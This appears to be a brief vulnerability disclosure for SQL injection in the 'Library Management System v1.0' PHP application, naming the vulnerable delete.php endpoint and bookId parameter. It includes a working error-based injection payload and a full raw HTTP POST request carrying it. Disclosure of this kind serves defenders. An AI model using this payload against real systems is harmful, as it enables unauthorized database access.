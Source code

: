 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/admin/delete.php

Vulnerability location: /LMS/admin/delete.php, bookId

[+] Payload: delete=&bookId=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20 // Leak place ---> bookId

```sql
POST /LMS/admin/delete.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

delete=&bookId=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20
```

![image](https://user-images.githubusercontent.com/54017627/180586131-8102f4f6-7ae6-400b-a173-65c8c21d1407.png)
